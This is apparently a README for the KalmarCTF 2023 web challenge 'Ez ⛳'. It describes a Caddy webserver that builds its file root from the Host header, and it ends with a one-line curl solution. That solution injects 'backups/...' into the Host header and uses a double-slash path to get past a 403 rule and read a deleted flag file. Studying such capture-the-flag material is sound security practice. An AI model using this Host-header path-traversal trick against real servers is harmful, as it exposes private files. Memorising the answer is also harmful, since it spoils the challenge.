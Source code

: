 # KalmarCTF 2023

> Welcome to KalmarCTF 2023, brought to you by the Kalmarunionen
> The competition will take place on Fri, 03 Mar. 2023, 17:00 UTC to Sun, 05 Mar. 2023, 17:00 UTC. For more information and to register, visit our website at KalmarC.TF
> We are thrilled to announce that Hex-Rays will be the main sponsor of KalmarCTF 2023.
> This year's competition will feature a variety of categories including pwn, crypto, web, rev, and of course miscgang will deliver.
> Don't miss out on the opportunity to test your skills and compete against the best in the field. Register now at KalmarC.TF and we'll see you at KalmarCTF 2023!
> Now with discord: https://discord.gg/kalmarctf

## Organizing

blahi

## Challenge: `Ez ⛳`

> Heard 'bout that new 🏌️-webserver? Apparently HTTPS just works(!), but seems like _someone_ managed to screw up the setup, woops.  The flag.txt is deleted until I figure out that HTTPS and PHP stuff #hacker-proof

Challenge setup:

`caddy:2.4.5-alpine`  -- this was the newest version of caddy when making this challenge.

File structure:

```
├── Caddyfile
├── php.caddy.chal-kalmarc.tf
│   ├── flag.txt
│   └── index.php
├── static.caddy.chal-kalmarc.tf
│   └── logo_round.svg
└── www.caddy.chal-kalmarc.tf
    └── index.html
```

docker-compose will create a wildcard cert, create a backup of all `*.caddy.chal-kalmarc.tf` folders into `backup/` and finally _delete `flag.txt`_.

```bash
apk add --update openssl nss-tools     && \
rm -rf /var/cache/apk/                 && \
openssl req -x509 -batch -newkey rsa:2048 -nodes -keyout /etc/ssl/private/caddy.key -days 365 -out /etc/ssl/certs/caddy.pem -subj '/C=DK/O=Kalmarunionen/CN=*.caddy.chal-kalmarc.tf' && \
mkdir -p backups/                      && \
cp -r *.caddy.chal-kalmarc.tf backups/ && \
rm php.caddy.chal-kalmarc.tf/flag.txt  && \
sleep 1                                && \
caddy run
```

So the running system has this folder structure:

```
/srv/
├── Caddyfile
├── backups
│   ├── php.caddy.chal-kalmarc.tf
│   │   ├── flag.txt
│   │   └── index.php
│   ├── static.caddy.chal-kalmarc.tf
│   │   └── logo_round.svg
│   └── www.caddy.chal-kalmarc.tf
│       └── index.html
├── php.caddy.chal-kalmarc.tf
│   └── index.php
├── static.caddy.chal-kalmarc.tf
│   └── logo_round.svg
└── www.caddy.chal-kalmarc.tf
    └── index.html
```

The important part of the `Caddyfile` is:

```
*.caddy.chal-kalmarc.tf {
    # block accidental exposure of flags:
    respond /flag.txt 403

    file_server {
        root /srv/{host}/
    }
}
```

Solution: `curl --path-as-is -k http://php.caddy.kalmarc.tf//flag.txt -H 'Host: backups/php.caddy.kalmarc.tf'`
